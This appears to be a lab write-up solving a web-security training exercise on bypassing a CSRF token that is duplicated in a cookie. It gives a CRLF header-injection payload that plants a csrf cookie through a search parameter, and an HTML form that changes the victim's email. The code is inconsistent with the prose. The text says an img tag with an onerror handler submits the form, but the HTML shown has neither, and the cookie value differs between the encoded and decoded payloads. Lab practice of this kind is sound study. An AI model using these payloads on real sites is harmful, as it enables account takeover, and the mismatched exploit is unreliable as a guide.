




<div align='center'>

# **CSRF**

</div>

## **Lab:** CSRF where token is duplicated in cookie

**Goal:** Use your exploit server to host an HTML page that uses a CSRF attack to change the viewer's email address.
 
**The lab provide:** A credential wiener:peter

**Solution:**

1.  When going to the login page, the server generated a csrf token and set the csrf cookie to that value as well



2.  If we change the csfr in the request body and the csrf cookie to the same value, the server still allow us the change the email. Therefore, we can bypass the csrf token by setting the csrf cookie and csrf token to the same value. We need a way to inject cookie to the victim's browser.



3.  In the search funtion, we see that the search term get reflected in the Set-Cookie header in the respond



This function has no csrf protection, we can use this payload endpoint to inject the cookie

```
/?search=aa%0d%0aSet-Cookie%3a+csrf%3da%3b%20SameSite=None
```

That payload is a URL encode version of

```
/?search=test
Set-Cookie: csrf=fake; SameSite=None
```

Send this payload, we see that the server will set a csfr cookie for us


4.  Construct an HTML page like below. This page will auto submit the changing email request to the server

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://0a7c00b5046fe6dac09de712000900b6.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test1&#64;gmail&#46;com" />
      <input type="hidden" name="csrf" value="a" />
      <input type="submit" value="Submit request" />
    </form>

  </body>
</html>
```

The img tag will make a GET request to the payload endpoint which will set a csrf cookie. Since this request does not return an image, this will trigger an error and will submit the changing email request for us (by `onerror="document.forms[0].submit()`)

5.  Submit this html page to the expoit server and solve the lab


